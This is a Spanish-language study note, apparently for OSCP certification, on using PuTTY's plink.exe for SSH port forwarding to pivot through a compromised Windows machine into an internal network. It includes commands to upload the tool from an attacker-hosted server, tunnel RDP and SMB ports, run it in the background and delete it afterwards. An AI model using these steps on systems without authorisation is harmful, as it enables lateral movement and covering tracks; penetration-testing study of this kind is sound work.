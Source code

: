 # Guía de Uso de `plink.exe` para Pivoting desde Windows (OSCP)

`plink.exe` es la versión en línea de comandos de PuTTY. Permite establecer túneles SSH desde máquinas Windows, lo que resulta muy útil si comprometes una máquina Windows intermedia y quieres pivotar hacia otra red interna a través de ella.

---

## 1. Descarga

Desde Kali (o máquina atacante):
```bash
wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe
```

---

## 2. Subir a la máquina comprometida (Windows)

Usa cualquiera de estos métodos:
- `smbserver.py`
- `certutil`
- `python3 -m http.server`

Ejemplo con PowerShell:
```powershell
Invoke-WebRequest http://<IP>:8000/plink.exe -OutFile C:\Users\Public\plink.exe
```

---

## 3. Sintaxis para Local Port Forwarding

```cmd
plink.exe -ssh usuario@IP_externa -L <puerto_local>:<host_objetivo>:<puerto_objetivo> -N
```

Ejemplo:
```cmd
plink.exe -ssh pivot@10.10.14.30 -L 3389:192.168.100.10:3389 -N
```

Esto redirige el puerto 3389 (RDP) desde la máquina comprometida hacia tu equipo atacante.

---

## Parámetros útiles

- `-N`: no abrir shell, solo el túnel
- `-pw <contraseña>`: si no puedes usar key auth
- `-batch`: evita prompts interactivos (recomendado en scripts)

---

## Casos de Uso en OSCP

- Pivot desde una máquina Windows intermedia hacia una red interna
- Acceder a puertos internos RDP, SMB, MySQL, etc.
- Usar desde `cmd.exe` o `PowerShell` sin GUI

---

## Buenas prácticas

- Ejecutar en segundo plano o con `start /b` si quieres mantenerlo activo:
```cmd
start /b plink.exe -ssh user@IP -L 445:192.168.100.50:445 -N
```
- Borra `plink.exe` al terminar si necesitas limpieza
- Verifica que el puerto redirigido esté abierto antes con `Test-NetConnection` o `ping`

---
